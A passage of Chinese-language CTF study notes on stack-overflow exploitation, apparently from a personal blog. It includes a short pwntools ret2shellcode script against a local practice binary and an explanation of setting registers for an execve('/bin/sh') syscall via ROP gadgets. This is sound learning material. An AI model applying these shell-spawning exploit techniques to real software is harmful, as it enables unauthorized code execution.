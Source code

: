 个人感觉是必须有可读部分，且NX保护不能开。（开了还执行个der的shellcode

![image-20221025202358102](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210252023455.png)

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

## ret2syscall

思路大概是：使用`ROPgadget`寻找到含有修改寄存器并`ret`的寄存器操作。（要`ret`是因为需要执行多个这样的操作）。然后找到多个这样的操作来覆盖`return address`，通过这些修改寄存器的操作来进行`syscall`。

主要利用系统调用，系统调用这个操作主要由操作系统内核提供。

32位应用程序调用系统调用的过程：

- 系统调用编号置入EAX
- 函数参数存入其他通用寄存器
- 触发0x80中断(int 0x80)

注意，x86中系统调用的前五个参数分别为：

- ebx
- ecx
- edx
- esi
- edi

若还有更多参数，则需要单独使用一个寄存器存放指向所有参数在用户空间地址的指针。

例如，实现`execve("/bin/sh")`操作，在32位系统下有如下特征：

- 系统调用号即eax为0xb（0xb对应要执行的系统调用，此处即execve）
- 第一个参数，即ebx指向/bin/sh的地址。为sh的地址也可以。
- 第二个参数、第三个参数，即ecx和edx为0。

64位略有不同：

- 系统调用编号存入rax
- 参数1存入rdi，参数2存入rsi，参数3存入rdx
- `execve`的系统调用号为`59`
- 不再使用`int 80`来发起系统调用，而是`syscall`指令。

## ROPgadgets操作

找`pop ebx`操作：
